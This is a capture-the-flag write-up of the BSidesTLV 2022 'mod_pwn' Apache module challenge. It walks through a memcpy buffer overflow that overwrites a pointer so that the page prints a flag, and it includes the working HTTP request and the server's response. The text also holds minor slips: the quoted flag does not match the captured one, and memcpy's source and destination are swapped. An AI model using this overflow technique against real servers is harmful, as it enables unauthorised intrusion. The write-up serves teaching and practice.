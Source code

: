# BSides TLV CTF 2022 - [https://ctf22.bsidestlv.com/](https://ctf22.bsidestlv.com/)
Pwn, 200 Points

## Description

![‏‏info.JPG](images/info.JPG)

Attached file [mod_pwn.tar.gz](./mod_pwn.tar.gz) 

## Mod_Pwn Solution

By extracting the tar.gz file we can the following files:
```console
┌─[evyatar@parrot]─[/ctf/2022_bsidestlv/pwn/mod_pwn]
└──╼ $ tree
.
├── Dockerfile
├── httpd.conf
├── Makefile
├── mod_pwnable.c
├── mod_pwnable.so
└── mod_pwn.tar.gz

0 directories, 6 files
```

By observing the source code we can see the flag on the static variables:
```c
...
#define ERR_NAME_TOO_LONG -1
#define MAX_NAME_SIZE 128 
const char flag[] = "BSidesTLV2022{n4g3_0v3r_http_i5_n3x7_g3n_h4ck1ng_pewpew}}";
const char footer[] = "\n<hr /> can u pwn me?\n\n";
...
```

We can see also the following function:
```c
static int pwnable_handler(request_rec *r)
{
    /* Init welcome object */
    welcome_msg_obj welcome_msg;
    memset(&welcome_msg, NULL, sizeof(welcome_msg));
    welcome_msg.suffix = &footer;
    strcpy(welcome_msg.color, "blue");

    /* Set the appropriate content type */
    ap_set_content_type(r, "text/html");
    
    /* Verify HTTP request method */
    if (strcmp(r->method, "GET") == OK) {
        ap_rputs("<h1>BSidesTLV 2022 Apache module!</h1> <br/>", r);
        if (r->args) {
            fetch_name_param(r, &welcome_msg.name);
            ap_rprintf(r, "Welcome, <font color='%s'>%s</font> \n<br />\n%s", welcome_msg.color, welcome_msg.name, welcome_msg.suffix);
        }
        else {
             ap_rprintf(r, "<form>\n");
             ap_rprintf(r, "Enter your name: <input type='text' name='name'> -> <input type='submit' />\n");
             ap_rprintf(r, "</form>\n");
        }
    }
    return OK;
}
```

As we can see, ```welcome_msg.suffix``` get the address of ```footer``` which locate on the memory near the flag.

Next, We can see [Buffer Overflow](https://ctf101.org/binary-exploitation/buffer-overflow/) on ```fetch_name_param``` function:
```c
static void fetch_name_param(request_rec *r, char *out) {
    char *name = &r->args[5]; // skipping the "?name=" prefix
    if(strlen(name) > sizeof(welcome_msg_obj)) {
        char *msg = apr_palloc(r->pool, MAX_NAME_SIZE); // CTF Note: The way `apr_palloc` works should NOT be a concern when trying to solve this challenge. Treat it as if it was a traditional `malloc` call.
        sprintf(msg, "Error, name too long: %.16s...", name);
        raise_error(ERR_NAME_TOO_LONG, out, msg); 
    } else {
        memcpy(out, name, strlen(name));
    }
    ap_unescape_urlencoded(out);
}
```

The function doesn't check the length of ```name``` before calling to ```memcpy``` function.

```memcpy``` get three params, ```out``` which is ```welcome_msg.name``` which is the source, ```name``` which is the user input as dest, and the length of ```name```.

```welcome_msg_obj``` struct is:
```c
typedef struct _welcome_msg_obj {
    char name[MAX_NAME_SIZE];
    char *suffix;
    char color[32];
} welcome_msg_obj;
```

We can see that ``name``` locate before ```suffix``` on the memory, Meaning that we can overwrite the ```suffix``` variable.

Because ```suffix``` locate close to the ```flag``` on the memory we can overwrite the last byte of ```suffix``` to make ```suffix``` point to the ```flag``` variable.

We can imagine this like that in the memory:
```
...
&flag	0x006b7b3c
&footer	0x006b7b78 
...
```

Because we can overwrite ```suffix``` variable (which point to the address of ```footer```) we can make ```suffix``` to point on the flag.

```suffix``` varbile is print to the page on  ```pwnable_handler``` function:

```c
static int pwnable_handler(request_rec *r)
{
    ...
            ap_rprintf(r, "Welcome, <font color='%s'>%s</font> \n<br />\n%s", welcome_msg.color, welcome_msg.name, welcome_msg.suffix);
        }
    ...
    return OK;
}
```

So we just need to send ```128``` bytes to fill ```name``` array and then we need to send another byte to overwrite the last byte of ```suffix``` to get the flag.

Because we don't know what is the flag size we need to do a type of brute force.

After a few guessing, we found the character ```+``` is the offset between ```suffix``` to ```flag```.

We can get the flag by sending the following HTTP request:
```HTTP
GET /ctf?name=yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy+ HTTP/2
Host: mod-pwn.ctf.bsidestlv.com
Cookie: bsidestlv-ctf-session=5fb7eed40a3353355d5070baf624f3df|6249ddd6c7fc469ba9a96304f8d57c7b
Sec-Ch-Ua: "Chromium";v="103", ".Not/A)Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://mod-pwn.ctf.bsidestlv.com/ctf
Accept-Encoding: gzip, deflate
Accept-Language: he-IL,he;q=0.9,en-US;q=0.8,en;q=0.7


```

Response:
```
HTTP/2 200 OK
Date: Sat, 02 Jul 2022 22:19:55 GMT
Content-Type: text/html
Content-Length: 280
Set-Cookie: bsidestlv-ctf-session=ed0838bcfaa56e3df80f9b6edceb7d6d|6249ddd6c7fc469ba9a96304f8d57c7b; Max-Age=360; Path=/; Secure; HttpOnly
Strict-Transport-Security: max-age=15724800; includeSubDomains

<h1>BSidesTLV 2022 Apache module!</h1> <br/>Welcome, <font color='blue'>yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy ao
</font> 
<br />
BSidesTLV2022{pwn4g3_0v3r_http_i5_n3x7_g3n_h4ck1ng_pewpew}
```

And we get the flag ```BSidesTLV2022{pwn4g3_0v3r_http_i5_n3x7_g3n_h4ck1ng_pewpew}```.